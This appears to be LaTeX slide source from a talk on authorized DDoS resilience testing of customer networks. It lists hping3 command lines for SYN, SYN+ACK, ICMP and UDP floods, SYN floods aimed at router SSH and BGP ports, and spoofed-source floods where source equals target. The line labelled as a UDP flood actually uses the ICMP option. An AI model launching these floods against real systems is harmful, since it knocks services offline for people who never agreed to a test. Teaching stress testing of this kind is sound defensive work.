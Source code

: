 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\begin{list1}
\item The minimal run contains at least these:
\begin{list2}
\item SYN flood: \verb+hping3 -q -c 1000000  -i u60 -S -p 80  $CUST_IP &+
\item SYN+ACK: \verb+hping3 -q -c 1000000  -i u60 -S -A -p 80  $CUST_IP &+
\item ICMP flood: \verb+hping3 -q -c --flood -1 $CUST_IP &+
\item UDP flood: \verb+hping3 -q -c --flood -1 $CUST_IP &+
\end{list2}
\item Vary the speed using the packet interval \verb+-i u60+ up/down
\item Use flooding with caution, runs max speeeeeeeeeeeed \smiley
\item TCP testing use a port which is allowed through the network, often 80/443
\item Focus on attacks which are hard to block, example TCP SYN must be allowed in
\item Also if you found devices like routers in front of environment\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 22 $ROUTER_IP+\\
\verb+hping3 -q -c 1000000  -i u60 -S -p 179 $ROUTER_IP+
\end{list1}


Spoofed packets src=dst=target \smiley

Flooding with spoofed packet source, within customer range

\begin{alltt}\small

-a --spoof hostname
    Use this option in order to set a fake IP  source  address,  this
    option ensures that target will not gain your real address.
\end{alltt}

\verb+hping3 -q --flood -p 80 -S -a $CUST_IP $CUST_IP+

Preferably using a test-case you know fails, to see effect

Still amazed how often this works

BCP38 anyone!


Using the built-in option -f for hping
\end{document}
